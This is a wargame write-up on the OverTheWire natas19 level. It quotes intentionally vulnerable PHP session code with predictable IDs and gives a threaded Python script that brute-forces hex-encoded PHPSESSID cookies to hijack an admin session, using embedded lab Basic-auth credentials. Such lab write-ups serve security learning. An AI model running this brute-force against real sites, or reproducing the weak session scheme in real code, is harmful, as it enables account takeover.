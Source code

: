 Title: Solution for wargame natas19
Date: 2015-09-15 10:59
Author: Nikolai Tschacher
Category: Php
Tags: Python, Wargames, Php, Security
Slug: solution-for-wargame-natas19
Status: published

Hi everyone
-----------

I am still trying to solve wargames on
[overthewire](http://overthewire.org). Level 19 proofed to be very
similar to level 18, where server side code looks something like the
following:

    :::php
    <?

    $maxid = 640; // 640 should be enough for everyone

    function isValidAdminLogin() { /* {{{ */
        if($_REQUEST["username"] == "admin") {
        /* This method of authentication appears to be unsafe and has been disabled for now. */
            //return 1;
        }

        return 0;
    }
    /* }}} */
    function isValidID($id) { /* {{{ */
        return is_numeric($id);
    }
    /* }}} */
    function createID($user) { /* {{{ */
        global $maxid;
        return rand(1, $maxid);
    }
    /* }}} */
    function debug($msg) { /* {{{ */
        if(array_key_exists("debug", $_GET)) {
            print "DEBUG: $msg";
        }
    }
    /* }}} */
    function my_session_start() { /* {{{ */
        if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
            if(!session_start()) {
                debug("Session start failed");
                return false;
            } else {
                debug("Session start ok");
                if(!array_key_exists("admin", $_SESSION)) {
                    debug("Session was old: admin flag set");
                    $_SESSION["admin"] = 0; // backwards compatible, secure
                }
                return true;
            }
        }

        return false;
    }
    /* }}} */
    function print_credentials() { /* {{{ */
        if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
            print "You are an admin. The credentials for the next level are:";
            print "Username: natas19n";
            print "Password: ";  
        } else {  
            print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";  
        }  
    }  
    /* }}} */

    $showform = true;  
    if(my_session_start()) {  
        print_credentials();  
        $showform = false;  
    } else {  
        if(array_key_exists("username", $_REQUEST) &&
            array_key_exists("password", $_REQUEST)) {  
                session_id(createID($_REQUEST["username"]));  
                session_start();  
                $_SESSION["admin"] = isValidAdminLogin();  
                debug("New session started");  
                $showform = false;  
                print_credentials();  
        }  
    }

    if($showform) {  
    ?>

    Please login with your admin account to retrieve credentials for
    natas19.

    <form action="index.php" method="POST">
    Username: <input name="username">  
      
    Password: <input name="password">  
      
    <input type="submit" value="Login"></input>  

    </form>
    <? } ?>

Assuming register_globals are off in the php.ini, we cannot really
inject some values to alter the logic of the code. Furthermore
`isValidAdminLogin()` always returns 0 and never 1, which is our aim.
But we immediately see that admin cookies are generated in a fixed,
small range:  

` function createID($user) { /* {{{ */     global $maxid; // maxid = 640     return rand(1, $maxid); }`

So we can just try brute forcing all cookies from 1 to 640 and we will
soon be admin.

Now level19 has a very similar code, but the cookie is generated
slightly more complex: First I tried some login attempts with different username/password
combinations:

` blabla:blabla ->    PHPSESSID=3235392d 626c61 626c61; path=/; HttpOnly blublu:blublu ->    PHPSESSID=3436382d 626c75 626c75; path=/; HttpOnly admin:AAAAAAAAAAAA ->   PHPSESSID=3538322d 61646d696e; path=/; HttpOnly`

We see that the last bytes seem to look like hex values. We can decode
this with python:

` ''.join([chr(i) for i in (0x62, 0x6c, 0x61)]) == 'bla' ''.join([chr(i) for i in (0x61, 0x64, 0x6d, 0x69, 0x6e)]) == 'admin'`

Assuming the valid ID's are still in the range 1-640, I need to figure
out where the id is hidden in the cookie. Seems like the username ist
just appended at the end of the cookie as ascii string. So we need to
set it to '61646d696e' for admin. The first three bytes are probably the
ID, because the ascii values are all numbers.

Overall cookie format:  
` NUM NUM NUM HYPHEN/- USERNAME`

Examples without ASCII encoding:  
` 123-admin 001-admin 012-admin 640-admin`

The solution to crack the code:

    :::python
    #!/usr/bin/python

    """
    blabla:blabla ->        PHPSESSID=3235392d 626c61 626c61; path=/; HttpOnly
    blublu:blublu ->        PHPSESSID=3436382d 626c75 626c75; path=/; HttpOnly
    admin:AAAAAAAAAAAA ->   PHPSESSID=3538322d 61646d696e; path=/; HttpOnly

    We see that the last bytes seem to look like hex values:

    ''.join([chr(i) for i in (0x62, 0x6c, 0x61)]) == 'bla'
    ''.join([chr(i) for i in (0x61, 0x64, 0x6d, 0x69, 0x6e)]) == 'admin'

    Assuming the valid ID's are still in the range 1-640, I need to figure 
    out where the id is hidden in the cookie. Seems like the username ist just 
    appended at the end of the cookie as ascii string. So we need to set it to 
    '61646d696e' for admin. The first three bytes are probably the ID, because
    the ascii values are all numbers.

    Format:

    NUM NUM NUM HYPHEN/- USERNAME

    Examples without ASCII encoding:

    123-admin
    001-admin
    012-admin
    640-admin
    """

    import threading
    import requests
    import binascii

    DEBUG = True

    class Bruter(threading.Thread):

        username = 'admin'
        url = 'http://natas19.natas.labs.overthewire.org/index.php'
        headers = {
            'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
        }

        def __init__(self):
            super(Bruter, self).__init__()
            self.sids = []

        def stoa(self, value):
            return binascii.hexlify(str(value))

        def run(self):
            for id in self.sids:
                session_id = 'PHPSESSID=' + self.stoa(str(id).zfill(3)) + self.stoa('-') + self.stoa(self.username)
                self.headers['Cookie'] = session_id
                response = requests.get(self.url, headers=self.headers).text

                if DEBUG:
                    print('[i] Requesting with sid {}'.format(session_id))

                if 'You are logged in as a regular user.' not in response:
                    print('[!] Got something: ' + session_id)
                    print(response)


    def main():
        # lets spawn 10 threads
        threads = [Bruter() for i in range(10)]

        for sid in range(1, 641):
            threads[sid%10].sids.append(sid)

        for t in threads:
            t.start()

        for t in threads:
            t.join()


    if __name__ == '__main__':
        main()
